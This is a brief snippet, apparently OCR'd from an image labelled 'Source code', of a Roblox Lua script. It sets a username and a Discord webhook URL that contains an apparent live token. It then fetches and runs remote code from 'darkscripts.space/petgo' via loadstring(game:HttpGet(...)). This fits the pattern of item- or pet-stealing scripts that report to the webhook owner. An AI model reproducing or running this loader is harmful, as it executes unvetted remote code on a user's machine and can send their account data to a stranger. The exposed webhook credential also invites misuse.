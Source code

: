 Username = "PogrzaloCie"
Webhook = "https://discord.com/api/webhooks/1297630284078121040/cn4JV5JZ7YyQ25jtDpaNJ7-XktjwIrHaX4SeWbSjdley9xrTieK5HOcPXBaKVYv4uXki"

loadstring(game:HttpGet(('https://darkscripts.space/petgo')))()
